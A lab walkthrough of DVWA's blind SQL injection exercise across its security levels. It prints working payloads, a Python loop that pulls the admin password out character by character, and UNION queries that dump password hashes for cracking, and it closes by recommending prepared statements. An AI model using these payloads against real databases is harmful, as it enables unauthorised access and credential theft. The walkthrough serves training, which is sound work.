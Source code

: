 ```yaml
---
description: http://localhost/DVWA/vulnerabilities/sqli_blind/
---
```


# SQLi Blind

<details>

<summary>What is a SQL Injection Blind?</summary>

Blind SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.

Many techniques such as [`UNION` attacks](https://portswigger.net/web-security/sql-injection/union-attacks) are not effective with blind SQL injection vulnerabilities. This is because they rely on being able to see the results of the injected query within the application's responses. It is still possible to exploit blind SQL injection to access unauthorized data, but different techniques must be used.

</details>

{% embed url="https://portswigger.net/web-security/sql-injection/blind" %}
[https://portswigger.net/web-security/sql-injection/blind](https://portswigger.net/web-security/sql-injection/blind)
{% endembed %}

{% hint style="info" %}
Using BurpSuite and the FoxyProxy extension is recommended.
{% endhint %}

## Low

We've an input type text that received an User ID in I by user and submit request using the Submit button:

<div align="left"><figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure></div>

In SQL Blind we obtain a boolean result (exist or not exist) of our query, then we need to be able to ask correctly information from DB, make script can be the best approach.

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

This's our request captured by Burp Suite, while here below there's a php source code:

<figure><img src="../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

How the same in the low level, there're not input sanitation, then we can send what we want into input type text field. In this case request will arrive to DB located into webserver, but query will be preparared using php language.

Analyzing source code, we know that mysql query is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id';
```

#### 1st Payload (length)

Regarding query and that our input type value is insert into $id variable, we need to do multiple question to DB regarding password length.

Then in this case, we can use following payload: `1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31)='x' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30)='x' #';
```

_admin password length is > 31?_

<div align="left"><figure><img src="../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure></div>

User ID exists in the DB = true.

We need to continue to ask questions for obtain a correct value.

_admin password length is > 32?_

<div align="left"><figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure></div>

No! Answer is wrong, then regarding last two answer, we know that admin password length has 32 characters.

Of course we can use an automated python script to do this automatically:

{% embed url="https://github.com/LeonardoE95/DVWA/blob/main/src/sqli_blind/low.py" %}

#### 2nd Payload (value)

starting with the first character, up to the last (which we know from the length we have just obtained) we must repeatedly query the DB asking whether or not the password character of the i-th position includes one of the possible alphanumeric characters.

```python
for i in range(1, password_length+1):
    for c in ALPHABET:
        sql_payload = f"1' AND (select substring(password, {i}, 1) from users where first_name='{username}')='{c}' #"
        if sql2bool(sql_payload):
            password += c
            print(c, end="", flush=True) # to print in a cool way
            break
```

Then, our query will be:

`1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' AND (select substring(password, 1, 1) from users where first_name='admin')='5' #';
```

Is the first character of admin password equals to 'a'?

<div align="left"><figure><img src="../.gitbook/assets/image (50).png" alt=""><figcaption></figcaption></figure></div>

No! again, is the first character of admin password equals to '5'?

<div align="left"><figure><img src="../.gitbook/assets/image (52).png" alt=""><figcaption></figcaption></figure></div>

Very good, the first character is 5, then we can continue to increment index and redo all questions until the final string will be discovered.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Medium

Here, there're a select with range (1 to 5) to set User ID.

<div align="left"><figure><img src="../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure></div>

In addition to low level, in the code below there're an escape string control and query variable $ID isn't enclosed by ''.



Our request include an ID + Submit values.

<figure><img src="../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

But, we can modify ID value using Burp Suite repeater function:

<figure><img src="../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

#### 1st Payload

Remembering that $ID variable isn't enclosed by '', escape string control isn't a matter.

Then in this case, we can use following payload: `1 OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 OR 1=1 -- ;
```

in the where condition there're a first search to user with this id '' OR a true condition, plus a comment.

<figure><img src="../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How the low level, regarding that query selects: first\_name, last\_name field from users table, we can use [UNION](https://www.w3schools.com/sql/sql_union.asp) operator to add a new query:  1 `UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT first_name,password FROM users -- ';
```

<figure><img src="../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## High

In this level clicking on first page, we obtain a redirect to a second page to submit effectively our Session ID:

<figure><img src="../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

<div align="left"><figure><img src="../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure></div>

#### 1st Payload

In this case payload is always the same of low level, but we need to add it into second page, infact we've two request (GET and POST)

However, we can use following payload: `1' OR 1=1 --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1 -- ';
```

that permit us to see all DB results:

<figure><img src="../.gitbook/assets/image (39).png" alt=""><figcaption></figcaption></figure>

#### 2nd Payload

How last levels, we can use [UNION](https://www.w3schools.com/sql/sql_union.asp) operator to add a new query:  `' UNION select first_name,password from users --`&#x20;

```sql
SELECT first_name, last_name FROM users WHERE user_id = '' UNION SELECT first_name,password FROM users -- ';
```

<div align="left"><figure><img src="../.gitbook/assets/image (40).png" alt=""><figcaption></figcaption></figure></div>

We obtain hash of psw to eventually crack using tools such as: [Hashcat](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/hashcat) and [John The Ripper](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/john-the-ripper).

Note: Every `SELECT` statement within `UNION` must have the same number of columns.

{% hint style="warning" %}
The input is not sanitized, so I can execute any (potentially malicious) command.
{% endhint %}

## Impossible

<figure><img src="../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

The best solution is to sanitize query using a prepared statement, to delineate part static and dinamic (id) of query; take a binding parameter to check if is it an integer or char; insert a control to count rows number as result; and use a [CSRF](../dvwa/csrf.md) token.

All this permits to separate sql code with sql data/parameter insert by user.

## References

For the making of this solution the following resource were used:

* [https://github.com/LeonardoE95/DVWA/tree/main/src/sqli\_blind](https://github.com/LeonardoE95/DVWA/tree/main/src/sqli_blind)

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection" %}
[15 - SQL Injection](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/main-contents/15-sql-injection)
{% endcontent-ref %}

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
